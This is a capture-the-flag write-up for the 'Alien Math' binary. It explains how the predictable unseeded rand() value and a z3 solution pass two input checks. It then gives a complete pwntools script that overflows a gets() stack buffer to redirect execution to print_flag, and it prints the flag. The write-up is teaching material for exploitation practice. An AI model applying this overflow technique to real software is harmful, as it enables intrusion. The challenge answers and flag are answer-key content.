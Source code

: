 # Alien Math
![image](https://user-images.githubusercontent.com/14978853/133141910-2a484123-4a73-4701-a23b-c73c3fc758a2.png)

We start from the taking a look at `alien_math` ELF binary in IDA and see the following picture:
![image](https://user-images.githubusercontent.com/14978853/133142249-6cbf2e98-d936-4509-8cb6-6746f03ad9d5.png)

Rough look at the code gives us the understanding that we need to solve some challenges before we actually have a BOF.

Let's start from the beginning. 

The code asks user for some number (`scanf("%d", &v5)`) with a question `What is the square root of zopnol?`, 
then it uses `rand()` to generate the first pseudo-random number which is then being compared with the user input.

The `rand()` function is called without preceeding call to `srand()` which must initialize the pseudo-random number generator,
that means all the `rand()` calls will have same output every program run (on any system).

So lest debug and see what the number is being generated by `rand()` and it will be the answer to the first challenge and it is a number `1804289383`.

The second challenge is inside `second_question(v4)` function, where `v4` holds user input for a question `How many tewgrunbs are in a qorbnorbf?`.

Here is the pseudocode of the `second_question` function:
![image](https://user-images.githubusercontent.com/14978853/133143932-75c8541c-69d5-46af-8506-87d6d62c0bb3.png)


We see that the user input (in `a1` argument) is being checked for allowed characters (`a1[i] <= '/' || a1[i] > '9'`) and
exits if there is a character which is not in range `0..9`.

Then some calculations and transformations are applied on the input buffer with help of `second_question_function` and  after the loop the resulting buffer is being compared
with number `7759406485255323229225`.

Here is the pseudocode of `second_question_function`:

![image](https://user-images.githubusercontent.com/14978853/133143770-f68846db-1276-484e-9168-4778b1ac69a0.png)

To solve this challenge I used `z3` python library:
```py
def second():
    solver = z3.Solver()

    chars = z3.BitVecs(''.join((f'd{d:02} ' for d in range(len(expected)-1))), 32)
    for ch in chars:
        solver.add(ch > 47, ch <= 57)

    an = chars[0]
    for i in range(len(chars)- 1):
        v1 = chars[i + 1] - ord('0')

        an = ((v1 + fn(an, i + an)) % 10) + ord('0')
        solver.add(an == expected[i+1])

    solver.add(chars[0] == ord('7'))
    assert solver.check() == z3.sat
    rv = ''
    for i in range(len(chars)):
        rv += chr(solver.model()[chars[i]].as_long())
    print(rv)
    return rv

print('finding the second challenge answer...')
enter2 = second().encode() #  b'7856445899213065428791'
```

We got an answer to the second challenge question: `7856445899213065428791` and we finally reached `final_question` where the BOF is "implemented":

![image](https://user-images.githubusercontent.com/14978853/133144230-0fa8d01b-eafa-40ff-9c46-18f950614cad.png)

We see there is call `gets(v1)` where v1 is the stack buffer, lets try to exploit it with sending the pattern of
charatecters created with Metasploit's `pattern_create.rb` to find the stack offset to the retn address and it equals 24.

Let's build the final exploit and get the flag:
```py
import traceback
from pwn import *
import z3

ip = "pwn.chal.csaw.io"
port = 5004


# elf = ELF('alien_math')


prefix = b""
offset = 24  # calculated using pattern_offset
overflow = b"A" * offset
retn =  p64(0x4014FB)  # address of `print_flag`


buffer = prefix + overflow + retn

r = remote(ip, port)

enter1 = b'1804289383'
expected = b'7759406485255323229225'


def fn(a, b):
    return (12 * (b - ord('0')) - 4 + 48 * (a - ord('0')) - (b - ord('0'))) % 10


def second():
    solver = z3.Solver()

    chars = z3.BitVecs(''.join((f'd{d:02} ' for d in range(len(expected)-1))), 32)
    for ch in chars:
        solver.add(ch > 47, ch <= 57)

    an = chars[0]
    for i in range(len(chars)- 1):
        v1 = chars[i + 1] - ord('0')

        an = ((v1 + fn(an, i + an)) % 10) + ord('0')
        solver.add(an == expected[i+1])

    solver.add(chars[0] == ord('7'))
    assert solver.check() == z3.sat
    rv = ''
    for i in range(len(chars)):
        rv += chr(solver.model()[chars[i]].as_long())
    print(rv)
    return rv

print('finding the second challenge answer...')
enter2 = second().encode() #  b'7856445899213065428791'

try:
    r.recvuntil(b'zopnol?')
    print("solving the first challenge...")
    r.sendline(enter1) 

    r.recvuntil(b'qorbnorbf?')
    print('solving the second challenge')
    r.sendline(enter2)


    r.recvuntil(b'salwzoblrs?')
    print("Sending payload...")
    r.sendline(buffer)

    while True:
        print(r.recv(1024))
except EOFError:
    pass
except:
    print("error.")
    print(traceback.format_exc())

```

Done! we got the flag: `flag{w3fL15n1Rx!_y0u_r34lLy_4R3_@_fL1rBg@rpL3_m4573R!}`
